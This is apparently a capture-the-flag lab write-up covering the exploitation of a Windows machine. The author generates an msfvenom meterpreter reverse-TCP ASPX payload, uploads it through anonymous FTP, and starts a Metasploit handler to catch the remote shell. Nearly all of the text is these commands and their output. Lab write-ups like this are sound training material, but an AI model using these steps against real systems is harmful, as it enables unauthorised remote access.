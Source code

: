 ## Exploitation (With Metasploit)

We have to create a payload using msfvenom to upload in the machine using <b>ftp</b>.

```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.61 LPORT=4444 -f aspx > h4xplo1t.aspx
 [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
 [-] No arch selected, selecting arch: x86 from the payload
 No encoder specified, outputting raw payload
 Payload size: 354 bytes
 Final size of aspx file: 2884 bytes
```

As I created the payload. Now, I will upload this file to the machine.

```bash
ftp 10.129.152.23
 Connected to 10.129.152.23.
 220 Microsoft FTP Service
 Name (10.129.152.23:root): anonymous
 Password:
 230 User logged in.
 Remote system type is Windows_NT.
 ftp> put h4xplo1t.aspx 
 local: h4xplo1t.aspx remote: h4xplo1t.aspx
 200 PORT command successful.
 125 Data connection already open; Transfer starting.
 226 Transfer complete.
 2921 bytes sent in 0.00 secs (30.9520 MB/s)
```

Now, I will visit http://10.129.152.23/h4xplo1t.aspx. Until we can setup the meterpreter for getting shell.

```bash
msf6 > use exploit/multi/handler 
 msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
 payload => windows/meterpreter/reverse_tcp
 msf6 exploit(multi/handler) > show options
 Module options (exploit/multi/handler):
 Name  Current Setting  Required  Description
 ----  ---------------  --------  -----------
 Payload options (windows/meterpreter/reverse_tcp):
 Name      Current Setting  Required  Description
 ----      ---------------  --------  -----------
 EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
 LHOST                      yes       The listen address (an interface may be specified)
 LPORT     4444             yes       The listen port
 Exploit target:
 Id  Name
 --  ----
 0   Wildcard Target
 msf6 exploit(multi/handler) > set LHOST 10.10.14.61
 LHOST => 10.10.14.61
 msf6 exploit(multi/handler) > run
 [*] Started reverse TCP handler on 10.10.14.61:4444
```
